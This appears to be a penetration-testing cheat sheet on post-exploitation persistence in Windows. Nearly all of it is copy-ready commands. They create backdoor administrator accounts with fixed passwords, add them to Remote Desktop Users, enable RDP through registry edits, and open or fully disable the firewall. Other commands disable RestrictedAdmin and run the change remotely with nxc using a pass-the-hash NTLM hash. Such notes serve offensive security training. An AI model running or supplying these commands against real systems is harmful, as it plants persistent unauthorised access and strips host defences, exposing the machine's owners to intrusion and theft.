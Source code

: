 # 🚪 Backdoor & RDP Access

One liner to add user, make them admin and enable rdp:

```
net user hacker Hacker123456@ /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable
```

If we get _nt authority\system_ or _administrator_ access we can create a backdoor as follows: Create user and add to administrator group

```cmd
net user /add backdoor Password123
```

```cmd
net localgroup administrators /add backdoor
```

Enable RDP:

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f 
```

Disable Firewall:

```
netsh advfirewall set allprofiles state off
```

If we get account restrictions:

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

With nxc:

```
nxc smb 10.0.0.200 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

